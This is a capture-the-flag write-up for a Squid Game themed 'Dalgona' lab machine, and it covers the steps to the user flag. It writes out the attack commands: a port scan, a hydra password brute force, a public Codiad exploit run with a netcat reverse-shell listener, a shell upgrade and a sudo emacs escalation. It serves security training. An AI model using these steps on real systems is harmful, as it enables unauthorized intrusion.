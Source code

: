 # CTF: Dalgona

![Difficulty: Hard](https://img.shields.io/badge/difficulty-hard-%23ff0000)
![Contest Date: 2024-05-14](https://img.shields.io/badge/contest%20date-2024--05--14-informational)
![Category: FTP, Hash, Crontab, SSH Key](https://img.shields.io/badge/category-ftp,hash,crontab,sshkey-%237159c1)
![By: Alexandre](https://img.shields.io/badge/by-Alexandre-%23f9a03c)  
![alt text](img/dalgona.png)
## Description

> 오징어 게임에 참여하여 456억의 당첨 기회를 잡으세요!

## Write-up

Reference to the Korean series "Squid Game". We have to find the user and root flag.

UserFlag: user.txt  
RootFlag: root.txt

## Flag Solutions

### User Flag

First thing to do is to check open ports on the target machine. We can do this by running a port scan using `nmap`.

```bash
nmap -sSV $IP
```

Results : 
```bash
PORT   STATE SERVICE VERSION

22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))

MAC Address: 02:85:B5:9A:69:1F (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have two open ports, 22 and 80. Let's check the web server on port 80.

```bash
http://$IP
```

![alt text](img/dalgona1.png)

We found a page with text in Korean. We can translate the text using Google Translate.

```bash
오징어 게임에 오신 것을 환영합니다.
이 작업을 수행하려면 모양을 부수지 않고 추출해야 합니다.
행운을 빕니다!

Bienvenue dans le jeu du calmar.
Pour ce faire, vous devez extraire la forme sans la détruire.
bonne chance!
```

The text is a hint to extract the shape without destroying it. If we have the reference to the Korean series "Squid Game", we can assume that the shape is the umbrella shape from the series and we have to lick the shape without breaking it.

We can try to access the page with the path `/lick`.

```bash
http://$IP/lick
```

![alt text](img/dalgona2.png)

We keep the username `player456`

When click on the text we have redirect to the page `/lick/ide` with a HTTP Authentication.

We can use `hydra` to brute force the password.

```bash
hydra -l <USER> -P rockyou.txt <IP> http-get /lick/ide -t 64
```

We found the password and we can connect to the page `/lick/ide` with the credentials `player456:<PASSWORD>`

We have a code editor (Codiad) we can try to find exploit for this editor.
    
```bash
searchsploit codiad
```

https://www.exploit-db.com/exploits/49705

We can use this exploit to get a reverse shell.

On the attacker machine, we can create a python script to get a reverse shell.

```
nc -lvnp <PORT>
```

On the attacker machine, we can run the python script.

```bash
python exploit.py http://player456:<PASSWORD>@<IP>/lick/ide/ player456 <PASSWORD> <IP> <PORT> linux
```

We can use command to be in bash shell.

```
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

Go to home directory.
    
```
cd /home
ls
player456
```
We can try to `sudo -l` to see if we can run any command as root.

```
sudo -l
User www-data may run the following commands on squidgame:
    (player456) NOPASSWD: /usr/bin/emacs
```

We have to export TERM variable to run the command.

```
TERM=xterm; export TERM
sudo -u player456 emacs -Q -nw --eval '(term "/bin/sh")' 
```

We can read the user flag.

**Well done! You have successfully captured the user flag.**
